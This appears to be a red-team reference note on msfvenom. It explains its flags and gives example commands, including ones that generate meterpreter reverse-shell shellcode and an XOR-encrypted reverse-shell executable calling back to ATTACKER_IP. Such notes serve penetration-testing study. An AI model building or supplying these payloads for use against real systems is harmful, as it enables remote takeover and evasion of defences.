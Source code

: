 MSFVenom is a Metaploit-produced payload generator for shellcode and executable generation. Its primary function will likely be for shellcode generation interoperable with [[Sliver C2]] or BOF applications. 

```shell
# Generate shellcode with msfvenom
msfvenom -p <payload name> <payload options> -a <architecture> -b <bad characters to avoid in shellcode generation> -o <output file> -f <output format>

# Example Windows Shellcode gerneation for use in a Python exploit
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=443 -f python -b '\x00'

# Example encrypted meterpreter payload generation using XOR
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe

msfvenom --list encrypt # List encryption options.
```

>[!note]
>If you are staging your shellcode, generate in `raw` format to be downloaded by your custom stager.

Output architecture refer to the CPU architecture of the target machine: x86, arm, mips, powerpc, etc.

Payloads can be viewed with `--list payload`. Grep for what you need, because there's hundreds of options. 

Bad characters are specified as a string of bytes denoted like so: ``'\x00\x0a\x0b\x0c'``. If you are generating an agent or stager and *not* shellcode, bad characters should not be a concern. 

The output file flag tells msfvenom to output the data to a file and not to the screen. This should be used to output binary file formats but not necessarily shellcode destined for other code. 

The format flag tells msfvenom which code format to use when generating shellcode. For example, msfvenom can format a shellcode string as a python string or as a c string. 
